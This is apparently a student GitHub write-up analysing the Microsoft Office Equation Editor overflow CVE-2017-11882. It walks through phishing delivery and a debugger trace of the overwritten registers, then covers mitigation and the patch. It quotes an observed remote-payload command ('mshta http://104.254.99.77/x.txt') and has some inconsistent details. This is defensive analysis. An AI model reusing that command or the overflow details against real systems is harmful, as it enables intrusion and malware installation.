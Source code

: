 # Microsoft Office Memory Corruption (CVE-2017-11882)  
![Word Logo](https://github.com/tingsama/hacking-p2/blob/main/Word%20Logo.png)  

### Background
* __Age__: 17 year old vulnerability
* __What is it__: Run arbitrary code remotely without user interaction
* __Why it works__: Buffer overflow vulnerability inside equation editor (EQUEDT32.exe)
* __Who has been affected__: Users who installed
  * Microsoft Office 2007 Service Pack 3
  * Microsoft Office 2010 Service Pack 2 
  * Microsoft Office 2013 Service Pack 1 
  * Microsoft Office 2016
* __CVSS__:
  * The Common Vulnerability Scoring System
  * The score is 7.8 (high)
  * Really dangerous & should be fixed ASAP  
![CVSS](https://github.com/tingsama/hacking-p2/blob/main/CVSS.png)  
<p align="center"> Figure 1:  CVSS score [1] </p>  


### It always starts from the internet phishing...
1.	A spam __email__
2.	An __attachment__
3.	A __.doc file__ in Rich Text Format (RTF)
4.	__Microsoft Office__ will automatically open it  
![Spam Email](https://github.com/tingsama/hacking-p2/blob/main/Spam%20Email.png)
<p align="center"> Figure 2:  Spam Email [2] </p>  


### Process Monitor
It is an [advanced monitoring tool for Windows](https://nvd.nist.gov/vuln-metrics/cvss).  
[It is used to monitor and display all the activities of file system in real-time.](https://en.wikipedia.org/wiki/Process_Monitor)  
* Unexpected operation named 'EQNEDT32.EXE'
* Command line has been called
* (Very like) a malicious host - 'mshta http://104.254.99.77/x.txt'  
![Process Monitor](https://github.com/tingsama/hacking-p2/blob/main/Process%20Monitor.png)  
<p align="center"> Figure 3:  Processes List [3] </p>  


### Burp Suite
It is a [web vulnerability scanner](https://portswigger.net/burp).  
[It is a set of tools used for penetration testing of web applications.](https://www.geeksforgeeks.org/what-is-burp-suite/g)  
* Unexpected 'GET' request 
* (Very like) a malicious host - 'mshta http://104.254.99.77/x.txt'  
![Burp Suite](https://github.com/tingsama/hacking-p2/blob/main/Burp%20Suite.png)  
<p align="center"> Figure 4:  Get request [3] </p>  


### Steps after you click the malicious word file:
#### 1. Microsoft Word file load up  
Here microsoft word will load up and read and compile the stuff inside.  
![step 1](https://github.com/tingsama/hacking-p2/blob/main/step%201.png)  
  
#### 2. Execute Equation Editor  
Everyone used the equation editor before, to create the nice look equations.  
However, the equation editor is another individual program and Microsoft Word invokes its own process.  
In this case, everything inside the equation editor can skip all Microsoft protection bubbles.  
![step 2](https://github.com/tingsama/hacking-p2/blob/main/step%202.png)  
  
#### 3. Hacker overflowed the font name registers inside Equation Editor  
Before overflow EAX save the length of font name which is 16 bytes (Hex:00000010).  
And the detail inside the font name registers is “TIMES NEW ROMAN”.  
![step 3-1](https://github.com/tingsama/hacking-p2/blob/main/step%203-1.png)  
<p align="center"> Figure 5:  Debuger screenshot 1 [3] </p>  
After overflow, EAX pointed to 0012F350 and overflowed all other registers.  
On memory 004115CF, it loads whatever is inside the ebp register and pushes into the EAX register.  
The ebp register is a two way pointer and linking between word document and equation editor.  
The hacker changed the ebp register value to 48 bytes and then it was loaded to the EAX register.  
![step 3-2](https://github.com/tingsama/hacking-p2/blob/main/step%203-2.png)  
<p align="center"> Figure 6:  Debuger screenshot 2 [3] </p>
  
#### 4. Overflow message  
Let now take a look at the 48 bytes detail inside the overflowed register beginning at address: 0012F350.  
From address 0012F350 to 0012F360 32 bytes are saving the hacker's mshta link and it can send a get request to this link and download the malicious software.  
Address: 0012F370 first 12 bytes are ‘20’ which are saving shell code inside but we cannot see it in detail through ASCii reader.   
The final 4 bytes are ‘12 0C 43 00’ which is the new EIP register address that the hacker wants us to jump to in the next step.  
![step 4](https://github.com/tingsama/hacking-p2/blob/main/step%204.png)  
<p align="center"> Figure 7:  Debuger screenshot 3 [3] </p>  
  
#### 5. Redirect to new EIP address  
Here we can see at address: 00430C12 it call the Winexe program.  
![step 5](https://github.com/tingsama/hacking-p2/blob/main/step%205.png)  
<p align="center"> Figure 8: Debuger screenshot 4 [3] </p>  
  
#### 6. Winexe execute   
From the code here we can see the Winexe execute at address 00430C12 and talk to the EAX register as it input.  
In this case, inside the Winexe it will run shell code first, then send a get request to the hacker's link.  
![step 6](https://github.com/tingsama/hacking-p2/blob/main/step%206.png)  
<p align="center"> Figure 9: Debuger screenshot 5 [3] </p>  
  
#### 7. Download hacker’s malicious software   
Finally after everything executes and runs correctly, it will download the malicious software and hide in some specific hard finding place to continuously steal your personal information.  


### [How to protect yourself from this exploit](https://support.microsoft.com/en-us/topic/how-to-disable-equation-editor-3-0-7e000f58-cbf4-e805-b4b1-fde0243c9a92)
The best way to protect your machine from this vulnerability is patching.
However, if you decide not to patch, a simple way to protect your machine is to disable EQUAEDT32.exe which is the equation editor that has the vulnerability.
The following commands can update your registry to disable EQUAEDT32.exe.
If you have an Office software running on a x64 machine, then you can use the second command, otherwise the first command is your choice. [4]  
![Update Registry](https://github.com/tingsama/hacking-p2/blob/main/Update%20Registry.png)  
<p align="center"> Figure 10: Update registry [4] </p>  


### [Official Patch](https://blog.0patch.com/2017/11/official-patch-for-cve-2017-11882-meets.html)
The official patching for CVE-2017-11882 was done in a Patch Tuesday update in November 2017. The patching was mainly done at function sub_0041160F.
The difference of the patched function(left hand side) and the original function(right hand side) is shown below.
The left top block shows that a boundary check is added. This line of code reset the counter register to 0x20 if it is larger than or equal to 0x21.
The left bottom block added a buffer truncation. This code makes sure only 0x20 bytes are copied and zero-terminate. [5]  
![Official Patc](https://github.com/tingsama/hacking-p2/blob/main/Official%20Patch.png)  
<p align="center"> Figure 11: Official Patch [5] </p>  


### How to avoid?
* Don’t skip patches.  
Simply __patch__ or __update__ the software can prevent an attack from happening. 
* Use a real-time anti-virus.  
Using a __anti-virus software__ can sometime be helpful.
* Filter your email.  
__Block__ the type of document that you don't use.  
__Do not click__ on the link or a document that looks suspicious. 
* Keep track of your websites. 
__Don’t enable online services__ or __create online accounts__ just because of promotion. 


### Reference:  
[1]"NVD - CVE-2017-11882", Nvd.nist.gov, 2021. [Online]. Available: https://nvd.nist.gov/vuln/detail/CVE-2017-11882. [Accessed: 18- Mar- 2021].  
[2]Blogs.quickheal.com, 2021. [Online]. Available: https://blogs.quickheal.com/wp-content/uploads/2018/02/Fig3.png. [Accessed: 18- Mar- 2021].  
[3]C. Hardy, Stack Buffer Overflows - a primer on smashing the stack using CVE-2017-11882. 2021.  
[4]C. Hardy, CVE-2017-11882 - 3 ways to perform technical analysis, 1 easy way to protect. 2021.  
[5]L. Treiber, "Microsoft's Manual Binary Patch For CVE-2017-11882 Meets 0patch", Blog.0patch.com, 2021. [Online]. Available: https://blog.0patch.com/2017/11/official-patch-for-cve-2017-11882-meets.html. [Accessed: 18- Mar- 2021].
